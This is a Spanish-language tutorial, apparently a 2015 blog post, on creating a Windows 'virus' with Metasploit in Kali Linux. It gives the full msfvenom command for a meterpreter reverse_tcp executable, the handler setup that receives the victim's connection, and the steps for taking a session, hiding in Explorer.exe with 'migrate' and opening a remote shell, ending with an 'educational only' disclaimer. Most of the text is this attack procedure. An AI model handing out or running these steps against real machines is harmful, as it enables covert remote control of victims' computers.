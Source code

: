 # Creación de Virus y Control Remoto del Equipo Víctima con Kali Linux

Publicado el 9 de agosto de 2015 por David

## Introducción

En este tutorial, aprenderás cómo crear un virus usando el Metasploit Framework en Kali Linux. Este proceso incluye la generación de un payload y la configuración de un servidor para interactuar y controlar remotamente el equipo infectado.

### Creación del Payload

Para comenzar, necesitas abrir una terminal en Kali Linux y ejecutar el siguiente comando:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=[tu IP] LPORT=9999 -a x86 –platform windows -o /root/Desktop/virus.exe -f exe```

`-p`: Especifica el payload a utilizar.
`-a`: Define la arquitectura que utilizará el virus.
`--platform`: Determina la plataforma en la que actuará el virus.
`-o`: Establece el directorio donde se guardará el virus.
`-f`: Define el formato en el que se guardará el virus.

# Creación del Servidor
Para interactuar con los equipos infectados, abre otra terminal y ejecuta:
msfconsole

Dentro de Metasploit, configura el handler para el payload:
`use multi/handler`
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.116
set LPORT 9999
exploit -j

# Explotación y Control Remoto
Una vez que el virus se ejecute en una máquina Windows, podrás controlarla remotamente. Usa el comando 'sessions -i' para ver las sesiones activas y conectarte a la máquina atacada:
'sessions -i 1'

Con esto, tendrás acceso a los procesos de la máquina infectada. Puedes ocultar el virus fusionándolo con otro proceso como 'Explorer.exe' usando el comando 'migrate'.

# Obtención de la Shell Remota
Para interactuar directamente con la máquina infectada:
'shell'

Advertencia
Este tutorial es meramente educativo. Crear y distribuir virus es una actividad ilegal en muchas jurisdicciones. Este conocimiento debe usarse solo en entornos controlados y con fines educativos.
